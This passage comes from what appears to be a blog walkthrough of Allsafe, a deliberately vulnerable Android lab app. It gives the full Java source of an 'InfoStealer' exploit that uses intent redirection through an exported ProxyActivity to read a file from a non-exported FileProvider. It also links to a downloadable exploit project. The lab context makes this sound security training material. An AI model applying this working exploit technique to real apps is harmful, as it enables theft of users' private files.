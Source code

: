 So, below is the full code from `MainActivity.java` and you can also download the full exploit source code [from here](https://github.com/JustAhmed/AndroidStuff/blob/main/InfoStealer.zip){:target="_blank"}

```java
public class MainActivity extends AppCompatActivity {

    private AppBarConfiguration appBarConfiguration;
    private ActivityMainBinding binding;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent extra = new Intent();
        extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        extra.setClassName(getPackageName(), "com.example.infostealer.Leaker");
        extra.setData(Uri.parse("content://infosecadventures.allsafe.fileprovider/files/docs/readme.txt"));

        Intent intent = new Intent();
        intent.setComponent(new ComponentName("infosecadventures.allsafe", "infosecadventures.allsafe.ProxyActivity"));
        intent.putExtra("extra_intent", extra);
        startActivity(intent);
    }
}
```

Finally, you can run the app and open `logcat` from android studio to search for the `Leaked File` log and you'll see that we successfully managed to read the `readme.txt` file via the non-exported file provider.

![53](/assets/images/Android/Allsafe/53.png)

## 16. Arbitrary Code Execution